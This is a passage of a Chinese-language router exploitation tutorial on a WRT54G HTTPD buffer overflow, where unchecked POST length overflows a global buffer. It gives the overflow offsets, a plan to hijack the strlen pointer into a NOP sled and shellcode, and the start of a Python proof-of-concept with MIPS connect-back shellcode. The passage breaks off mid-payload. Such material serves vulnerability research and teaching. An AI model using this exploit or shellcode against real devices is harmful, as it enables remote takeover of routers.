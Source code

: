 ```
1 wreadlen = wfread(post_buf,1,content-length,fhandle);
2 if(wreadlen)
3     strlen(post_buf);

```

读取长度为content-length的所有POST数据到post_buf，如果读取的POST数据长度不为0，就计算post_buf中数据的长度。 这里的content-length是POST参数的长度，在调用do_apply_post函数时并没有进行校验，而该长度在使用读取数据进入内存时也没有进行校验就直接读取了POST参数，因此导致了缓冲区溢出。 我们再看看产生缓冲区溢出的内存post_buf的位置。可以看到，post_buf位于HTTPD的 .data段中，如下图所示。在应用程序中，.data段用于存放已初始化的全局变量，这里的post_buf大小为0x2710字节（10 000字节）。

[![](http://static.wooyun.org//drops/20150804/2015080402371184686.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-10.png)

现在我们已经弄清楚了漏洞的原理。该漏洞在接收超过10 000字节的来自攻击者伪造的数据包时，由于在do_apply_post函数调用前后没有验证POST数据的长度，而在do_apply_post函数中使用了自定义的wfread() 函数，并调用了fread() 系统函数，直接将伪造的超长POST数据全部复制到大小为10 000字节的全局变量post_buf中，所以导致了缓冲区溢出。

13.3　漏洞利用
=========

* * *

下面介绍一下该漏洞的利用方式。

13.3.1　漏洞利用方式：执行Shellcode
-------------------------

* * *

在漏洞分析中我们发现，该漏洞有一个特征，就是缓冲区溢出的数据覆盖 .data段中的全局变量。仔细分析能够发现在 .data段后面有以下段，如下图所示。

[![](http://static.wooyun.org//drops/20150804/2015080402371172492.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-11.png)

因为这些段是连续的并且可写入，所以我们考虑通过do_apply_post函数的漏洞使溢出数据连续覆盖 .data后面的多个段，直到将 .extern段中的strlen函数地址覆盖，这样，我们就可以在wfread函数覆盖内存以后，在调用strlen函数时将执行流程劫持并执行任意地址的代码，如下图所示。

[![](http://static.wooyun.org//drops/20150804/2015080402371291123.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-12.png)

在这里，只要填充0x2F32（0x1000D7A0 - 0x10001AD8）字节的数据，就可以将原来的strlen调用位置填充为任意地址，并控制执行流程。但是，为了利用的稳定性和通用性，这里选择将strlen之后的一段数据一并覆盖，利用方法如下图所示。 在post_buf中填充NOP指令及Shellcode，将post_buf之后总共0x4000字节的数据全部覆盖为post_buf首地址，使布置的缓冲区总是能够覆盖strlen函数地址，strlen指向post_buf，如此一来，原来执行strlen的地方都会跳转到post_buf首地址去执行。这样就可以保证wfread() 函数布置完缓冲区以后，在0x004112D8处执行strlen函数时会被劫持到post_buf头部去执行我们的Shellcode了。

[![](http://static.wooyun.org//drops/20150804/2015080402371299867.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/%E5%9B%BE13-13.png)

13.3.2　生成POC
------------

* * *

在完成了ROP的构造以后，编写如下代码与路由器进行交互，实现漏洞利用。 源码　wrt54g_POC.py

```
1 import sys
2 import struct,socket
3 import urllib2
4 def makepayload(host,port):
5     print '[*] prepare shellcode',
6     hosts = struct.unpack('<cccc',struct.pack('<L',host))
7     ports = struct.unpack('<cccc',struct.pack('<L',port))
8     mipselshell ="\xfa\xff\x0f\x24"   # li t7,-6
9     mipselshell+="\x27\x78\xe0\x01"   # nor t7,t7,zero
10     mipselshell+="\xfd\xff\xe4\x21"   # addi a0,t7,-3
11     mipselshell+="\xfd\xff\xe5\x21"   # addi a1,t7,-3
12     mipselshell+="\xff\xff\x06\x28"   # slti a2,zero,-1
13     mipselshell+="\x57\x10\x02\x24"   # li v0,4183 # sys_socket
14     mipselshell+="\x0c\x01\x01\x01"   # syscall 0x40404
15     mipselshell+="\xff\xff\xa2\xaf"   # sw v0,-1(sp)
```